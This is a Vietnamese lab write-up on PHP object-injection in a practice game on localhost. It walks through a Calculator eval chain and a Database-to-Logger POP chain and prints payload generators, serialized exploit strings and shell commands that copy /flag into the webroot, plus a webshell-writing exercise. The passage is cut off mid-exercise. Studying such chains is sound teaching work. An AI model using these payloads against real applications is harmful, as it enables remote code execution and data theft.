#### 💥 CHUỖI 2: DUCK TYPING VỚI `Calculator::run()` (KHÔNG CẦN MAGIC METHOD)

Một chuỗi RCE thứ hai được thiết kế tinh vi không kém:

##### 1. Class `Calculator` ([utils.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/libs/utils.php#L5-L15)):
```php
class Calculator {
    public $expression;
    public function __construct($expr) {
        $this->expression = $expr;
    }

    public function run() {
        $result = eval($this->expression); // HÀM EVAL THỰC THI BẤT KỲ CODE PHP NÀO!
        return $result;
    }
}
```

##### 2. Nơi gọi hàm trong các Map ([map4.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/backend/map4.php#L26-L32)):
```php
else if ($action == "run") {
    $result = $_SESSION["trainer"]->run(); // DEV NGHĨ RẰNG ĐÂY LÀ HÀM CHẠY TRỐN CỦA TRAINER!
    if ($result == true)
        echo "You escaped";
    ...
}
```

##### 3. Cơ chế hoạt động:
1. PHP là ngôn ngữ kiểu động (Dynamic typing / Duck Typing). Khi bạn gọi `$object->run()`, PHP **chỉ quan tâm đối tượng đó có phương thức tên là `run()` hay không**, chứ không quan tâm nó có phải là `Trainer` hay không!
2. Hacker tạo đối tượng `Calculator`:
   ```php
   $calc = new Calculator("die(file_get_contents('/flag'));");
   echo serialize($calc);
   ```
   Chuỗi serialized:
   ```text
   O:10:"Calculator":1:{s:10:"expression";s:31:"die(file_get_contents('/flag'));";}
   ```
3. Upload chuỗi này qua `save-load.php?action=load`. Biến `$_SESSION["trainer"]` giờ đây lưu đối tượng `Calculator`.
4. Hacker gửi một request:
   `POST /backend/index.php?level=map4` với tham số `action=run`.
5. Code chạy đến dòng `$_SESSION["trainer"]->run()`.
6. PHP gọi thẳng vào `Calculator::run()` $\rightarrow$ gọi `eval("die(file_get_contents('/flag'));")`.
7. Nội dung file `/flag` lập tức được in thẳng ra màn hình trình duyệt!

---

### BÓC TÁCH CHI TIẾT: TẠI SAO BẤM RUN LẠI IN NGUYÊN BẢNG PHPINFO? (TRUY VẾT FLOW TỪ CALC.SAV ĐẾN BATTLE.HTML)

Khi bạn tạo file `calc.sav` chứa:
```text
O:10:"Calculator":1:{s:10:"expression";s:10:"phpinfo();";}
```
Và upload lên, sau đó vào `battle.html` bấm nút **Run**, trên màn hình lập tức hiện ra **nguyên một bảng tím xanh PHP Version 7.3.33**.

```mermaid
sequenceDiagram
    autonumber
    actor User as Trình duyệt (Hacker)
    participant BattleHTML as frontend/html/battle.html
    participant BattleJS as frontend/js/battle.js
    participant IndexPHP as backend/index.php
    participant MapPHP as backend/map1.php
    participant Calc as libs/utils.php (Calculator)
    participant Buffer as Output Buffer (HTTP Body)

    User->>BattleHTML: Click nút <button id="action-run">Run</button>
    BattleHTML->>BattleJS: Sự kiện $("#action-run").click(...)
    BattleJS->>IndexPHP: AJAX POST /backend/index.php?level=map1 {action: "run"}
    IndexPHP->>MapPHP: include("map1.php")
    MapPHP->>Calc: $result = $_SESSION["trainer"]->run()
    Calc->>Calc: eval("phpinfo();") thực thi!
    Calc->>Buffer: phpinfo() TỰ ĐỘNG PHUN HTML BẢNG TÍM XANH VÀO BUFFER!
    Calc-->>MapPHP: eval trả về giá trị true ($result = true)
    MapPHP->>Buffer: if ($result == true) echo "You escaped" -> nối thêm text
    MapPHP->>BattleJS: die() đóng gói gửi toàn bộ HTTP Response Body về
    BattleJS->>BattleJS: Nhận data (chứa HTML của phpinfo + "You escaped")
    BattleJS->>BattleHTML: $("#battle-result").html(data) -> Bơm thẳng HTML vào thẻ <p>
    BattleJS->>BattleHTML: document.getElementById('dialog-default').showModal()
    BattleHTML-->>User: BẬT POPUP DIALOG HIỆN BẢNG PHPINFO LÊN TRƯỚC MẮT!
```

#### ❓ Bí ẩn 1: Tại sao không có lệnh `echo` kết quả hàm run mà phpinfo vẫn được in ra?
Nhiều người nghĩ rằng: Muốn in ra màn hình thì phải có `echo $_SESSION["trainer"]->run()`. Nhưng trong `map1.php` chỉ viết:
```php
$result = $_SESSION["trainer"]->run();
if ($result == true)
    echo "You escaped";
```
**Bản chất low-level của hàm `phpinfo()`:**
1. Trong ngôn ngữ PHP, `phpinfo()` là một hàm rất đặc biệt: **Nó KHÔNG RETURN chuỗi HTML!**
2. Khi `phpinfo()` chạy bên trong `eval("phpinfo();")`, chính engine của PHP **tự động ghi thẳng toàn bộ hàng nghìn dòng mã HTML (các thẻ `<table>`, `<tr>`, `<td>`, CSS inline) vào luồng xuất (Output Stream / HTTP Response Body)** ngay tại khoảnh khắc hàm được gọi!
3. Giá trị mà hàm `phpinfo()` trả về (`return`) chỉ là một giá trị boolean: `true` (thành công).
4. Do đó, biến `$result` nhận giá trị `true`.
5. Tiếp theo, dòng code `if ($result == true) echo "You escaped";` chạy tiếp, in thêm chuỗi `"You escaped"` **nối vào ngay sau đống mã HTML khổng lồ của `phpinfo()`**!
6. Lệnh `die();` đóng gói toàn bộ HTTP Response gửi về cho trình duyệt.

#### ❓ Bí ẩn 2: Mã HTML đó đi qua những file nào và ai render ra màn hình?
Toàn bộ hành trình đi qua đúng 6 file theo thứ tự:

1. **File 1: `calc.sav` (Dữ liệu đầu vào do Hacker chế tạo)**:
   * Chứa chuỗi: `O:10:"Calculator":1:{s:10:"expression";s:10:"phpinfo();";}`.
2. **File 2: `web/src/backend/save-load.php` (Nơi tiếp nhận Object)**:
   * Nhận upload file qua `action=load`.
   * Gọi `unserialize($data)` khôi phục đối tượng `Calculator` với thuộc tính `$expression = "phpinfo();"`.
   * Gán vào biến phiên: `$_SESSION["trainer"] = new Calculator("phpinfo();")`.
3. **File 3: `web/src/frontend/html/battle.html` (Nơi phát lệnh)**:
   * Người dùng đang đứng ở giao diện đánh quái Map 1, bấm nút:
     ```html
     <button id="action-run" class="nes-btn is-warning">Run</button>
     ```
4. **File 4: `web/src/frontend/js/battle.js` (Cầu nối gửi request ngầm AJAX)**:
   * Đoạn code lắng nghe sự kiện bấm nút Run (Dòng 106-116):
     ```javascript
     $("#action-run").click(function (e) {
         e.preventDefault();
         $.post("/backend/index.php?level=map1", { "action": "run" }).done(function (data) {
             // ... chờ server trả về ...
         });
     });
     ```
5. **File 5: `web/src/backend/index.php` $\rightarrow$ `map1.php` (Router & Controller)**:
   * `index.php` đọc `level=map1`, gọi `include('map1.php')`.
   * `map1.php` thấy `$action == "run"`, gọi:
     ```php
     $result = $_SESSION["trainer"]->run();
     ```
6. **File 6: `web/src/backend/libs/utils.php` (Nơi thực thi mã độc)**:
   * Vì `$_SESSION["trainer"]` là một `Calculator`, PHP nhảy vào:
     ```php
     class Calculator {
         public function run() {
             $result = eval($this->expression); // eval("phpinfo();") chạy tại đây!
             return $result;
         }
     }
     ```
   * `phpinfo()` phun toàn bộ mã HTML vào HTTP Response.
   * `map1.php` in thêm `"You escaped"` rồi gọi `die()`.

7. **Quay lại File 4: `web/src/frontend/js/battle.js` (NƠI RENDER BẢNG RA MÀN HÌNH!)**:
   * Khi server phản hồi, hàm `.done(function (data) { ... })` đón lấy gói tin:
     ```javascript
     $.post("/backend/index.php?level=map1", { "action": "run" }).done(function (data) {
         // data lúc này chính là toàn bộ chuỗi HTML của bảng phpinfo + "You escaped"!
         
         // [DÒNG CODE RENDER QUYẾT ĐỊNH]:
         // Lệnh .html(data) của jQuery lấy chuỗi HTML đó chèn thẳng vào thẻ <p id="battle-result"> trong battle.html!
         $("#battle-result").html(data);
         
         // [DÒNG BẬT HỘP THOẠI POPUP]:
         // Bật hộp thoại <dialog id="dialog-default"> đè lên giữa màn hình!
         document.getElementById('dialog-default').showModal();
     });
     ```
8. **Hiển thị trên File 3: `battle.html`**:
   * Trong `battle.html` có sẵn thẻ:
     ```html
     <dialog class="nes-dialog" id="dialog-default">
         <form method="dialog">
             <p id="battle-result"><!-- TOÀN BỘ BẢNG PHPINFO ĐƯỢC JQUERY NHÉT VÀO ĐÂY! --></p>
             <button id="return-btn">Return</button>
         </form>
     </dialog>
     ```
   * Trình duyệt Chrome phân tích cú pháp (parse) mã HTML vừa được nhét vào thẻ `<p id="battle-result">` và vẽ ra **nguyên một bảng tím xanh `phpinfo()` hoàn chỉnh** bên trong khung hộp thoại đúng như bức ảnh bạn đã chụp!

---

## 7. BẢNG TỔNG HỢP: MA TRẬN CÁC HÀM, CLASS VÀ ĐIỂM KHAI THÁC

| Map | File thực thi | Class mục tiêu | Thuộc tính / Hàm bị lợi dụng | Cơ chế Pentest | Kết quả đạt được |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Map 2** | `map2.php` | `Trainer` $\rightarrow$ `Pokemon` | `$pokemon->health`<br>`$pokemon->damage` | **Attribute Tampering:** Bơm giá trị máu và damage cực lớn vào RAM | Đánh thắng Boss 1 $\rightarrow$ Lấy `BOSS1_FLAG` |
| **Map 3** | `map3.php` | `TrumCuoi` | Hàm `fight()` bị ghi đè | **Class Substitution:** Ép PHP gọi hàm `fight()` của lớp con thay vì lớp cha | Bỏ qua logic reset máu về 1 $\rightarrow$ Lấy `BOSS2_FLAG` |
| **Map 4 (Cách 1)** | `save-load.php` | `Database` $\rightarrow$ `Logger` | Magic method `__destruct()` $\rightarrow$ `Logger::close()` $\rightarrow$ `system()` | **POP Chain:** Nối chuỗi phá hủy đối tượng với hàm thực thi hệ thống | RCE đọc file `/flag` trên server |
| **Map 4 (Cách 2)** | `map4.php` | `Calculator` | Phương thức `run()` $\rightarrow$ `eval()` | **Duck Typing Method Abuse:** Tráo đổi đối tượng để kích hoạt hàm `eval()` khi bấm chạy trốn | RCE in trực tiếp `/flag` ra màn hình |
| **Map 5** | `check_secret.php` | N/A | `$_GET["secret"] === $flag` | **Authentication Bypass:** Nộp nội dung `/flag` vừa đọc được | Hoàn thành toàn bộ game |

---

## 8. CHUYÊN ĐỀ ĐỈNH CAO: BẢN CHẤT MAGIC METHODS - TƯ DUY KHỞI NGUYÊN KHI RƠI VÀO ĐƯỜNG CÙNG (TẠI SAO CẦN DÙNG Ở MAP 5?)

> **Bối cảnh Map 5:**
> Khi bước sang Map 5, mở file `backend/index.php` bạn sẽ thấy:
> ```php
> case 'map5':
>     // Không làm gì hết ở đây, đố hack được luôn đó :)
>     break;
> ```
> Hoàn toàn **KHÔNG CÓ file `map5.php`**. Trên giao diện cũng không có bất kỳ nút hành động nào (không có `fight`, không có `run`). Mọi cánh cửa API đều đóng kín!

---

### PHẦN 1: TƯ DUY TỪ SỐ 0 - TA ĐANG KIỂM SOÁT ĐƯỢC NHỮNG GÌ?

Là một Pentester đứng trước một ứng dụng, bước đầu tiên không bao giờ là "đoán mò payload", mà là **khoanh vùng tài sản bị kiểm soát (Attack Surface Analysis)**:



#### Nút thắt logic dẫn đến Magic Method:
* Ở Map 2, Map 3, Map 4: Ta dựa vào việc **người dùng bấm nút trên web** để server gọi hàm `$obj->fight()` hoặc `$obj->run()`.
* Nhưng ở Map 5: Server **không gọi bất kỳ hàm nào** của đối tượng!
* $\longrightarrow$ **CÂU HỎI SỐNG CÒN:** *"Làm thế nào để code của hacker tự động thực thi khi server không hề có bất kỳ dòng code nào gọi hàm của đối tượng?"*
* $\longrightarrow$ **LÝ DO NGHĨ ĐẾN MAGIC METHOD:** Trong PHP, Magic Method là loại phương thức **DUY NHẤT** được kích hoạt **TỰ ĐỘNG BỞI HỆ THỐNG ZEND ENGINE** dựa trên các sự kiện vòng đời (Lifecycle Events) của bộ nhớ RAM mà **hoàn toàn không cần code ứng dụng gọi đến nó**!

---

### PHẦN 2: TẠI SAO KHÔNG THẤY GHI TRONG CODE MÀ MAGIC METHOD VẪN TỰ CHẠY?

Nhiều người tìm trong toàn bộ code không thấy dòng nào viết `$db->__destruct()`, vậy tại sao nó vẫn chạy?

#### 1. "Bản hợp đồng ngầm" giữa Class và Zend Engine:
Trong PHP, các hàm bắt đầu bằng 2 dấu gạch dưới (`__`) như `__construct`, `__destruct`, `__wakeup`, `__toString` được gọi là **Magic Methods**.
* Chúng không sinh ra để lập trình viên gọi bằng tay (`$obj->__destruct()` $\leftarrow$ Không ai viết thế này cả!).
* Chúng là các **Hook (Điểm móc sự kiện)** được đăng ký trực tiếp với bộ phân giải bộ nhớ của PHP Engine.

#### 2. Cơ chế giải phóng bộ nhớ (Garbage Collection & Request Teardown):
Khi một HTTP Request gửi đến file `save-load.php?action=load`:
1. PHP khởi động tiến trình, nạp đối tượng vào RAM qua `unserialize($data)`.
2. Dòng 65 chạy: `echo "Load successfully";`.
3. Script `save-load.php` **kết thúc (Hết dòng code để chạy)**.
4. **LÚC NÀY ĐIỀU KỲ DIỆU XẢY RA Ở CẤP HỆ ĐIỀU HÀNH PHP:**
   * Trước khi PHP đóng tiến trình và trả RAM về cho máy chủ, bộ thu gom rác (**Zend Garbage Collector**) tự động quét qua danh sách các Object vừa tạo trong RAM để dọn dẹp.
   * Nếu Class của Object đó có khai báo hàm `__destruct()`, **ZEND ENGINE BẮT BUỘC PHẢI TỰ ĐỘNG GỌI `__destruct()` TRƯỚC KHI XÓA OBJECT ĐÓ KHỎI RAM!**
   * $\rightarrow$ **Kết luận:** Hàm `__destruct()` chắc chắn sẽ tự chạy 100% ngay khi request tải file kết thúc, bất kể ứng dụng có muốn hay không, và bất kể có file `map5.php` hay không!

---

### PHẦN 3: CẨM NANG NHẬN DIỆN MAGIC METHOD CHO PENTESTER

Khi Source Code Review một dự án PHP, hãy dùng lệnh tìm kiếm (`grep -rn "__"` hoặc Ctrl+Shift+F) để săn lùng các Magic Method theo bảng sau:

| Magic Method | Sự kiện kích hoạt ngầm (Trigger Event) | Ý đồ lập trình viên | Cách Pentester lợi dụng |
| :--- | :--- | :--- | :--- |
| **`__wakeup()`** | Kích hoạt **ngay lập tức** khi hàm `unserialize()` đang tái tạo đối tượng | Thường dùng để kết nối lại database hoặc reset thuộc tính | Dùng để ghi đè dữ liệu hoặc bypass kiểm tra ngay khi vừa nạp vào RAM |
| **`__destruct()`** | Kích hoạt khi **Object bị hủy hoặc khi SCRIPT PHP KẾT THÚC** | Đóng kết nối DB, xóa file rác, lưu log phiên | **VŨ KHÍ TỐI THƯỢNG:** Tự động chạy mà không cần bất kỳ API nào gọi. Khởi đầu cho mọi POP Chain! |
| **`__toString()`** | Kích hoạt khi Object bị đối xử như chuỗi (`echo $obj`, `strlen($obj)`, ghép chuỗi `"$obj"`) | Trả về chuỗi đại diện (JSON/String) của Object | Biến các hàm in ấn bình thường thành ngòi nổ kích hoạt hàm tiếp theo |
| **`__call()`** | Kích hoạt khi gọi một hàm **không tồn tại** trên Object (`$obj->nonExistent()`) | Xử lý ngoại lệ hoặc Dynamic Routing | Đổi hướng luồng gọi hàm sang một Class nguy hiểm khác |
| **`__get()` / `__set()`** | Kích hoạt khi đọc/ghi vào một thuộc tính không tồn tại hoặc private | Đóng gói dữ liệu (Encapsulation) | Đọc trộm biến nhạy cảm hoặc ghi đè thuộc tính |

---

### PHẦN 4: THỰC THI POP CHAIN TẠI BÀI LAB (DATABASE $\rightarrow$ LOGGER $\rightarrow$ SYSTEM)

Vì ở Map 5 không có file PHP nào, ta dùng chuỗi POP Chain dựa trên `__destruct()` để đọc `/flag` mà **chỉ cần tương tác duy nhất với `save-load.php`**.



#### 1. Code tạo payload hoàn chỉnh ([generate_pop.php](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/generate_pop.php)):
```php
class Logger {
    public $filepath;
    public function __construct($filepath) {
        $this->filepath = $filepath;
    }
}

class Database {
    public $conn;
}

// Câu lệnh Command Injection chép /flag ra thư mục web
$cmd = "dummy; cp /flag /var/www/html/frontend/materials/flag.txt; chmod 777 /var/www/html/frontend/materials/flag.txt";

$logger = new Logger($cmd);
$db = new Database();
$db->conn = $logger; // Lồng Logger vào trong Database

echo serialize($db);
```

#### 2. Chuỗi Payload sinh ra ([pop.sav](file:///e:/Learn_pentest_2026_CBJS/PHP_deserization/g1IGWmqTT2ea7j40ig9c_pokemon/web/src/pop.sav)):
```text
O:8:"Database":1:{s:4:"conn";O:6:"Logger":1:{s:8:"filepath";s:110:"dummy; cp /flag /var/www/html/frontend/materials/flag.txt; chmod 777 /var/www/html/frontend/materials/flag.txt";}}
```

#### 3. Quá trình thực thi trên máy chủ:
1. Bạn vào tính năng Load game, tải file `pop.sav` lên `save-load.php?action=load`.
2. Hàm `unserialize()` đọc chuỗi:
   * Khởi tạo đối tượng `Database`.
   * Gán thuộc tính `$conn` bằng đối tượng `Logger`.
   * Gán `$filepath` của `Logger` bằng câu lệnh copy flag.
3. Trang web in ra `"Load successfully"` và kết thúc.
4. **Ngay trước khi tiến trình tắt:**
   * Zend Engine tự động chạy `Database::__destruct()`.
   * `Database::__destruct()` gọi `$this->conn->close()`.
   * Vì `$this->conn` là `Logger`, PHP chạy `Logger::close()`.
   * `Logger::close()` chạy lệnh:
     ```bash
     rm dummy; cp /flag /var/www/html/frontend/materials/flag.txt; chmod 777 /var/www/html/frontend/materials/flag.txt
     ```
5. Bạn mở trình duyệt vào:
   👉 `http://localhost:15001/frontend/materials/flag.txt`
   Nội dung file `/flag` nằm ngay trước mắt bạn!
6. Bạn lấy cờ này nộp vào form ở Map 4 (`check_secret.php?secret=...`) $\rightarrow$ Mở khóa sang Map 5 và hoàn thành toàn bộ game mà **không cần bất kỳ file `map5.php` nào cả!**

---

## 9. GIÁO TRÌNH CHUYÊN SÂU: TƯ DUY NGƯỢC TỪ GADGET CHAIN SANG OBJECT GRAPH

> **Điểm cốt lõi cần nhớ mãi mãi:**
> * **Luồng A (Runtime Execution - Động):** Diễn ra khi PHP chạy trên Server:
>   $$\text{Database::\_\_destruct()} \longrightarrow \text{gọi \$this->conn->close()} \longrightarrow \text{chuyển sang Logger::close()}$$
> * **Luồng B (Object Graph Construction - Tĩnh):** Diễn ra trên máy của bạn khi viết file sinh payload:
>   $$\text{Tạo Logger (lá)} \longrightarrow \text{Tạo Database (gốc)} \longrightarrow \text{Gán \$db->conn = \$logger} \longrightarrow \text{serialize()}$$
>
> **Quy luật bất biến:**
> * **Runtime (Hành vi):** Chạy từ **Gốc** (nơi có Magic Method) $\rightarrow$ đến **Lá** (nơi có Sink thực thi).
> * **Dựng Object Graph (Dữ liệu):** Phải đi từ **Lá** (dữ liệu lõi) $\rightarrow$ bọc dần ra **Gốc** (vỏ bọc ngoài cùng).

>Hai quá trình này ngược chiều nhau 100%. Nếu bạn mang tư duy của luồng Runtime để đi viết file dựng Object, bạn sẽ bị "lú" ngay lập tức!Hai quá trình này ngược chiều nhau 100%. Nếu bạn mang tư duy của luồng Runtime để đi viết file dựng Object, bạn sẽ bị "lú" ngay lập tức!
---

### PHẦN 1: TƯ DUY TUYẾN TÍNH VS TƯ DUY NGƯỢC (REVERSE THINKING)

#### 1. Tư duy tuyến tính (Lập trình phát triển phần mềm bình thường):
Khi một lập trình viên viết code tính năng, họ tư duy từ **Nguyên nhân $\rightarrow$ Kết quả**:
1. Tạo một đối tượng: `$db = new Database()`.
2. Gọi hàm thực thi: `$db->query()`.
3. Khi làm xong, gọi đóng: `$db->close()`.
$\rightarrow$ Luồng suy nghĩ đi xuôi theo chiều mũi tên thời gian: **Bắt đầu $\rightarrow$ Xử lý $\rightarrow$ Kết thúc.**

#### 2. Tư duy ngược (Tư duy của Pentester / Exploit Developer):
Khi phân tích một lỗ hổng Deserialization, bạn đang đứng ở vạch xuất phát nhưng không biết phải đi đâu nếu nhìn xuôi. Do đó, bạn buộc phải **đi lùi từ đích đến về vạch xuất phát**:



##### Áp dụng vào ví dụ `Database` và `Logger`:
1. **Tìm Sink (Đích):** Bạn mở file `libs/utils.php` và thấy phương thức `close()` của class `Logger` có lệnh `system("rm " . $this->filepath)`. 
   * *Câu hỏi đặt ra:* Ai sẽ gọi hàm `close()` của `Logger`?
2. **Tìm Gadget (Mắt xích):** Bạn tìm kiếm toàn bộ project xem ở đâu có chữ `->close()`.
   * Bạn thấy trong `libs/database.php`, class `Database` có dòng: `$this->conn->close()`.
3. **Tìm Entry Point (Ngòi nổ tự kích hoạt):** Dòng `$this->conn->close()` lại nằm trọn vẹn trong hàm `public function __destruct()`.
   * *Nhận định then chốt:* `__destruct()` tự động chạy khi script kết thúc mà **không cần ai gọi**!
4. **Kết luận chuỗi:** 
   $$\text{Database::\_\_destruct()} \xrightarrow{\text{gọi \$this->conn->close()}} \text{Logger::close()} \xrightarrow{\text{chạy}} \text{system()}$$

---

### PHẦN 2: GIẢI MÃ 7 CÂU HỎI BẢN CHẤT OOP TRONG GADGET CHAIN

#### Câu 1: Tại sao phải khai báo class Logger và Database trong file tạo dữ liệu (`generate_pop.php`)?
* **Bản chất:** Hàm `serialize()` chỉ có thể mã hóa một Object khi Object đó **đã tồn tại trong RAM**.
* Muốn tạo ra object trong RAM (`new Database()`, `new Logger()`), PHP bắt buộc phải biết "khuôn mẫu" (Class Definition) của nó trông như thế nào.
* Nếu bạn không khai báo `class Database { ... }`, PHP sẽ báo lỗi chí mạng ngay tại chỗ: `Fatal error: Uncaught Error: Class 'Database' not found`.

#### Câu 2: Tại sao khi viết file tạo payload, lại phải tạo `$logger` trước rồi mới tạo `$db`?
* Hãy tưởng tượng việc **đóng gói một hộp quà có hộp nhỏ lồng bên trong hộp to**:
  * Hộp to: `Database`
  * Hộp nhỏ: `Logger`
* Bạn không thể nhét hộp nhỏ vào hộp to nếu **chiếc hộp nhỏ chưa được sản xuất ra đời**!
* Trong code:
  ```php
  $logger = new Logger("lệnh_cần_chạy"); // 1. Phải có thực thể Logger nằm trong RAM trước
  $db = new Database();                 // 2. Tạo thực thể Database
  $db->conn = $logger;                  // 3. Lúc này mới lấy $logger gán vào thuộc tính conn của $db được!
  ```

#### Câu 3: Tại sao phải viết `$db->conn = $logger`?
* Trong source code gốc của server:
  ```php
  class Database {
      public function __destruct() {
          $this->conn->close();
      }
  }
  ```
* Lập trình viên thiết kế thuộc tính `$conn` với kỳ vọng nó là đối tượng kết nối cơ sở dữ liệu `mysqli`.
* Lệnh `$db->conn = $logger;` chính là hành động **tráo ruột (Object Injection)**: Bạn tháo đối tượng `mysqli` ra, nhét đối tượng `Logger` vào thay thế.
* Khi đó, `$this->conn` trong hàm `__destruct()` sẽ trỏ thẳng tới `Logger`.

#### Câu 4: Tại sao trong file tạo payload, ta không bao giờ gọi `$logger->close()`?
* Vì file `generate_pop.php` là **xưởng chế tạo bom (Tạo Payload)**, chứ không phải **chiến trường (Kích nổ)**!
* Mục tiêu của file tạo payload chỉ là: Dựng lên một cấu trúc dữ liệu hoàn chỉnh trong RAM rồi dùng `serialize()` "đóng băng" nó thành chuỗi text.
* Việc gọi `close()` sẽ diễn ra trên Server mục tiêu, khi Server gọi `unserialize()` và giải phóng bộ nhớ!

#### Câu 5: Mối liên hệ giữa `$this->conn->close()` và việc PHP tìm hàm `close()` (Dynamic Dispatch)
* PHP là ngôn ngữ kiểu động (Dynamically Typed).
* Khi PHP gặp dòng lệnh:
  ```php
  $this->conn->close();
  ```
  PHP **không hề quan tâm** lập trình viên khai báo biến `$conn` ban đầu để làm gì. Nó chỉ làm đúng 1 việc tại thời điểm runtime:
  1. Nhìn vào biến `$this->conn` xem nó đang trỏ tới Object thuộc Class nào trong RAM.
  2. Nếu nó thấy đó là Class `Logger`, PHP lập tức tra bảng phương thức của Class `Logger` xem có hàm nào tên là `close` không.
  3. Thấy có $\rightarrow$ Nhảy thẳng vào thực thi `Logger::close()`.
* Cơ chế này trong OOP gọi là **Dynamic Method Dispatch** (Điều phối phương thức động).

#### Câu 6: Tại sao thứ tự khai báo class, thứ tự tạo object và thứ tự gọi hàm là ba việc hoàn toàn khác nhau?

| Khái niệm | Thời điểm diễn ra | Ý nghĩa | Ví dụ trong bài |
| :--- | :--- | :--- | :--- |
| **1. Khai báo Class** | Lúc viết code (Compile/Parse time) | Định nghĩa cái khuôn (Class có những biến nào, hàm nào) | `class Database { ... }` |
| **2. Tạo Object** | Lúc chuẩn bị dữ liệu (Setup time) | Cấp phát vùng nhớ RAM theo thứ tự phụ thuộc (tạo lá trước, tạo gốc sau) | `$logger = new Logger();`<br>`$db = new Database();` |
| **3. Gọi hàm** | Lúc chạy trên server (Runtime execution) | Dòng chảy sự kiện thực tế khi kích nổ payload | `Database::__destruct()` $\rightarrow$ `Logger::close()` |

#### Câu 7: Làm thế nào nhìn vào một Gadget Chain và tự vẽ được cấu trúc Object cần có?
* Hãy dùng **Quy tắc chiếc hộp (Russian Matryoshka Doll)**:
  * Đi tìm hàm tự động chạy đầu tiên(__destruct()): Đặt làm **Cái hộp ngoài cùng** (`Database`).
  * Xem hàm đó gọi phương thức gì qua thuộc tính nào: Gọi `close()` qua thuộc tính `conn`.
  * Tìm class nào có phương thức `close()`: Đó là `Logger`.
  * $\rightarrow$ Đặt `Logger` vào **bên trong thuộc tính `conn`** của `Database`.
  * Xem `Logger` cần thuộc tính gì để chạy lệnh: Cần `filepath`.
  * $\rightarrow$ Đặt chuỗi lệnh của bạn vào **thuộc tính `filepath`** của `Logger`.

---

### PHẦN 3: BẢN CHẤT OBJECT GRAPH VÀ CƠ CHẾ SERIALIZATION

#### 1. Object và Object Reference trong RAM là gì?
* **Object (Đối tượng):** Là một vùng nhớ RAM được cấp phát riêng biệt, chứa các giá trị thuộc tính của một Class.
* **Property chứa Object khác:** Trong RAM, một Object không "nuốt chửng" Object kia, mà nó **lưu một con trỏ (Memory Address / Reference)** chỉ sang vùng nhớ của Object kia.
* **Object Graph (Đồ thị đối tượng):** Là mạng lưới liên kết giữa các Object trong RAM thông qua các con trỏ tham chiếu này.

```text
       [RAM: Vùng nhớ A]                     [RAM: Vùng nhớ B]
      +-------------------+                 +-------------------+
      | Object: Database  |                 |  Object: Logger   |
      +-------------------+                 +-------------------+
      | $conn ------------|---(Con trỏ)---->| $filepath: "calc" |
      +-------------------+                 +-------------------+
```

#### 2. `serialize()` ép phẳng Object Graph ra sao?
`serialize()` hoạt động theo thuật toán **Duyệt cây theo chiều sâu (Depth-First Search - DFS)**:
1. Quét Object gốc ngoài cùng: Ghi nhận `O:8:"Database":1:{...}`.
2. Đi vào bên trong thuộc tính `conn`: Thấy nó trỏ sang Object `Logger`.
3. Tạm dừng Object `Database`, nhảy sang Object `Logger` để mã hóa trước: Ghi nhận `s:4:"conn";O:6:"Logger":1:{...}`.
4. Đi vào thuộc tính `filepath` của `Logger`: Ghi nhận `s:8:"filepath";s:4:"calc";`.
5. Đóng ngoặc `Logger`, rồi quay lại đóng ngoặc `Database`.

Kết quả thu được một chuỗi phẳng biểu diễn cây lồng nhau:
```text
O:8:"Database":1:{s:4:"conn";O:6:"Logger":1:{s:8:"filepath";s:4:"calc";}}
```

#### 3. Ví dụ độc lập, an toàn để chạy và quan sát:

```php
<?php
// Ví dụ an toàn: Không dùng lệnh hệ thống
class Engine {
    public $power;
    public function __construct($hp) {
        $this->power = $hp;
    }
}

class Car {
    public $brand;
    public $engine; // Thuộc tính sẽ chứa một Object khác
    public function __construct($brand, $engineObj) {
        $this->brand = $brand;
        $this->engine = $engineObj;
    }
}

// 1. Tạo đối tượng lá (Engine)
$v8 = new Engine("500HP");

// 2. Tạo đối tượng gốc (Car) và nạp Engine vào
$myCar = new Car("Ford", $v8);

// 3. Quan sát cấu trúc Object Graph trong RAM
echo "=== 1. CẤU TRÚC OBJECT GRAPH TRONG RAM ===\n";
print_r($myCar);

// 4. Quan sát chuỗi sau khi serialize()
echo "\n=== 2. CHUỖI SERIALIZED ÉP PHẲNG ===\n";
$serializedData = serialize($myCar);
echo $serializedData . "\n";

// 5. Quan sát quá trình phục hồi của unserialize()
echo "\n=== 3. PHỤC HỒI LẠI OBJECT GRAPH TỪ CHUỖI ===\n";
$restoredCar = unserialize($serializedData);
print_r($restoredCar);
```

---

### PHẦN 4: QUY TRÌNH 5 BƯỚC VIẾT FILE `generate_pop.php` CHUYÊN NGHIỆP



#### Bước 1: Khai báo Class "khung xương" (Stub Classes)
> Trong file tạo payload, bạn **KHÔNG CẦN copy toàn bộ code bên trong các hàm** của class gốc! Bạn chỉ cần khai báo tên Class và các Thuộc tính của nó. Vì `serialize()` chỉ quét thuộc tính, nó không quan tâm hàm bên trong viết gì!

```php
class Logger {
    public $filepath;
}

class Database {
    public $conn;
}
```

#### Bước 2: Khởi tạo Object lá (Tầng dữ liệu bên trong)
```php
$logger = new Logger();
$logger->filepath = "dummy; cat /flag > /var/www/html/frontend/materials/flag.txt";
```

#### Bước 3: Khởi tạo Object gốc và móc nối quan hệ (Wiring)
```php
$db = new Database();
$db->conn = $logger; // Móc nối
```

#### Bước 4: Kiểm tra cấu trúc Object Graph trước khi serialize
```php
print_r($db);
```

#### Bước 5: Serialize và lưu ra file
```php
$payload = serialize($db);
file_put_contents("exploit.sav", $payload);
```

---

### PHẦN 5: BÀI TẬP RÈN LUYỆN TƯ DUY NGƯỢC (TỰ LUYỆN TẬP)

---

#### 📝 BÀI TẬP 1 (Cơ bản: 1 Object lồng 1 Object)

##### Cho source code mục tiêu trên server:
```php
class FileWriter {
    public $filename;
    public $content;
    public function save() {
        file_put_contents($this->filename, $this->content);
    }
}

class SessionBackup {
    public $storage;
    public function __destruct() {
        $this->storage->save();
    }
}
```

##### Yêu cầu dành cho bạn:
1. **Vẽ Object Graph** cần tạo để ghi nội dung `<?php phpinfo(); ?>` vào file `shell.php`.
2. **Viết các dòng code PHP** để tạo ra chuỗi serialized tương ứng (theo 5 bước chuẩn hóa).

---

#### 📝 BÀI TẬP 2 (Trung bình: 1 Object chứa 2 Object nhánh)

##### Cho source code mục tiêu trên server:
```php
class Formatter {
    public $prefix;
    public function format($text) {
        return $this->prefix . $text;
    }
}

